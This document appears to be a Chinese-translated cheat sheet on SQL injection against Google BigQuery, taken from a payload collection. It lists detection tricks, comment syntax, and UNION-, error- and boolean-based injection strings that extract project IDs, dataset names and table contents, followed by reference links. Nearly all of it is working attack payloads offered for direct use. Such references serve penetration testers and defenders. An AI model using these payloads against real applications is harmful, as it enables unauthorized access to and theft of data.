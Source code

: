 # 谷歌BigQuery SQL注入

> 谷歌BigQuery SQL注入是一种安全漏洞类型，攻击者可以通过操纵用户输入（这些输入未经过适当清理）来执行任意SQL查询在谷歌BigQuery数据库中。这可能导致未经授权的数据访问、数据篡改或其他恶意活动。

## 概述

* [检测](#检测)
* [BigQuery注释](#bigquery注释)
* [基于BigQuery联合的](#基于bigquery联合的)
* [基于BigQuery错误的](#基于bigquery错误的)
* [基于BigQuery布尔的](#基于bigquery布尔的)
* [基于BigQuery时间的](#基于bigquery时间的)
* [参考](#参考)

## 检测

* 使用经典的单引号触发错误：`'`
* 使用反引号符号标识BigQuery：```SELECT .... FROM `` AS ...``

| SQL查询                                              | 描述                 |
| ---------------------------------------------------- | -------------------- |
| `SELECT @@project_id`                                | 获取项目ID           |
| `SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA` | 获取所有数据集名称   |
| `select * from project_id.dataset_name.table_name`   | 从特定项目ID和数据集中获取数据 |

## BigQuery注释

| 类型                       | 描述                 |
|----------------------------|--------------------|
| `#`                        | 哈希注释            |
| `/* PostgreSQL注释 */`     | C风格注释           |

## 基于BigQuery联合的

```ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
```

## 基于BigQuery错误的

| SQL查询                                                | 描述         |
| ------------------------------------------------------ | ----------- |
| `' OR if(1/(length((select('a')))-1)=1,true,false) OR '` | 零除错误     |
| `select CAST(@@project_id AS INT64)`                  | 类型转换     |

## 基于BigQuery布尔的

```ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
```

## 基于BigQuery时间的

* BigQuery语法中不存在基于时间的函数。

## 参考

* [BigQuery SQL注入速查表 - Ozgur Alp - 2022年2月14日](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
* [BigQuery文档 - 查询语法 - 2024年10月30日](https://cloud.google.com/bigquery/docs/reference/standard-sql/query-syntax)
* [BigQuery文档 - 函数和运算符 - 2024年10月30日](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* [Akamai Web应用防火墙绕过之旅：利用“谷歌BigQuery”SQL注入漏洞 - Duc Nguyen - 2020年3月31日](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)